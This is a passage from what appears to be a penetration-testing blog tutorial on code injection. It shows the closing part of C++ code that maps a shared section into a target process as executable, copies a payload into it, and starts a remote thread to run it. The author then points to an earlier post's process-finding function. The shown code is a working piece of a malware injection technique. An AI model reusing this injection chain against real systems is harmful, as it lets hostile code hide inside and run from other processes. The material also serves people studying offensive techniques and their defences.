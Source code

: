 ```cpp
  }

  // bind the object in the memory of the target process
  // for reading and executing
  myNtMapViewOfSection(sh, ph, &rb, NULL, NULL, NULL, 
  &s, 2, NULL, PAGE_EXECUTE_READ);

  // write payload
  memcpy(lb, my_payload, sizeof(my_payload));

  // create a thread
  myRtlCreateUserThread(ph, NULL, FALSE, 
  0, 0, 0, rb, NULL, &th, NULL);

  // and wait
  if (WaitForSingleObject(th, INFINITE) == WAIT_FAILED) {
    return -2;
  }

  // clean up
  myZwUnmapViewOfSection(GetCurrentProcess(), lb);
  myZwUnmapViewOfSection(ph, rb);
  CloseHandle(sh);
  CloseHandle(ph);
  return 0;
}
```

As you can see, everything is simple. Also I used `findMyProc` function from one of my [previous](https://cocomelonc.github.io/pentest/2021/09/29/findmyprocess.html) sections:

![code injection 11](./images/32/2021-12-15_18-38.png){width="80%"}    
